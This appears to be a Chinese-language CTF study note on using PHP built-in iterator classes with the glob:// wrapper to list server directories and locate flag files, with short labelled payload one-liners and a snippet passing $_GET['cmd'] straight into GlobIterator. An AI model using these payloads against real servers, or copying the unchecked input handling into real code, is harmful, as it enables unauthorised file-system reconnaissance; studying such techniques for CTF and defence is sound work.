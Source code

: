 示例：

```plain
<?php
$iterator = new DirectoryIterator('C:\\');
echo $iterator->getPathname();
?>
```

```plain
C:\$Recycle.Bin
```

遍历目录

```plain
<?php
$dir = $_GET['cmd'];
$a = new GlobIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');// 不加__toString() 也可，因为 echo 可以自动调用
}
?>
```

会创建一个指定目录的迭代器。当执行到 echo 函数时，会触发 DirectoryIterator 类中的 `__toString()` 方法，输出指定目录里面经过排序之后的第一个文件名

常配合 glob://协议寻找我们想要的文件路径

```plain
<?php
$dir=new DirectoryIterator("glob:///flag");
echo $dir;
```

```plain
payload:
$a = new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}
```

## FilesystemIterator 类

[PHP: FilesystemIterator - Manual](https://www.php.net/manual/zh/class.filesystemiterator)

FilesystemIterator 提供了一个用于查看文件系统目录内容的简单接口。该类的构造方法将会创建一个指定目录的迭代器。

其实和 DirectoryIterator 类相同用法

```plain
<?php
$dir=new FilesystemIterator("C:\\");
echo $dir;
```

```plain
$Recycle.Bin
```

```plain
payload:
$a = new FilesystemIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}
```
